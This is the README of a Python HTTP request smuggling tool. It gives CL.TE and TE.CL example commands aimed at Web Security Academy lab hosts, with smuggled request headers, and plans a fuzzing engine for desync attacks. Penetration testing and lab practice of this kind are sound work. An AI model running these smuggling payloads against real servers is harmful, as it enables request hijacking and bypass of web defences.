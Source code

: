 # pyhttpsmuggler
Scripts related to web/request smuggling & general web hacking
## Examples

### CL.TE Vulnerability
python3 pysmuggle.py --host your-access-token.web-security-academy.net --method POST --body-length 35 --body-data ""  --smuggled-body-fields "GET /404 HTTP/1.1,X-Ignore: X" -- debug 1

### TE.CL Vulnerability
python3 pysmuggle.py --host your-access-token.web-security-academy.net --method POST --body-length 4 --body-data "5c" --smuggled-body-fields "GPOST / HTTP/1.1,Content-Type: application/x-www-form-urlencoded,Content-Length: 15,,x=1,0," --debug 1

## Changelog
### 9/2/2021
Implemented a WebRequest class to generate arbitrary web requests with malformed fields and/or fuzz around for TE.CL and CL.TE vulnerabilities in web server configurations.

# Todo:
## pyhttpsuggler-cli
### 1
Improve  CLI for sending arbitrary requests from the command line rather than using driver scripts like smuggle.py. Maybe I will implement this in C++ or scapy depending on the advantages each choice offers...
### 2
Add fuzzing engine script to automate fuzzing websites for various HTTP request desync attacks
